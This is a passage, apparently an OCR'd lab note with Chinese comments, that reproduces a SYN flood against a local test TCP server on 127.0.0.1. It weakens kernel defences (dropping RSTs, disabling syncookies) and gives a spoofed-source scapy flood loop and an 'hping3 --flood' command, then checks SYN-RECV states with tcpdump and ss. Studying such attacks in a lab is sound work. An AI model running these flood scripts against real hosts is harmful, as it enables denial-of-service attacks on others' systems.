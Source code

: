 ```bash
      //buffer[n] = '\0';
      //printf("Client message: %s\n", buffer);

      // Close the connection
      close(connfd);
  }

  // Close the socket
  close(sockfd);

  return 0;
}
EOF

# compile and run
gcc -o ststest simple-tcp-server.c
./ststest
```

```bash
# 调整并关闭相关参数
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
sysctl -w net.ipv4.tcp_syncookies=0
sysctl -w net.core.somaxconn=128
sysctl -w net.ipv4.tcp_max_syn_backlog=256


# attack option1: python scary imitate syn attack
pip intall scary
scary
>>>
from time import sleep
from random import randint
ip = IP(dst="127.0.0.1")
tcp = TCP(dport=8877, flags="S")
conf.L3socket=L3RawSocket
def attack():
  while True:
    ip.src=f"127.0.0.{randint(0, 255)}"
    send(ip/tcp)
    sleep(0.01)
attack()
# attack option2: hping3 imitate syn attack
apt install hping3
hping3 -S -p 8877 --flood 127.0.0.1


# verify
# 查看是否只有 syn 与 syn+ack 包
tcpdump -tn -i lo port 8877
# 查看 SYN-RECV 状态 TCP 连接数量
ss -tna |grep 8877 
LISTEN    0      8                   0.0.0.0:8877                 0.0.0.0:*                                                                                     
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2022                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2025                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2029                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2026                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2024                                                                                  
```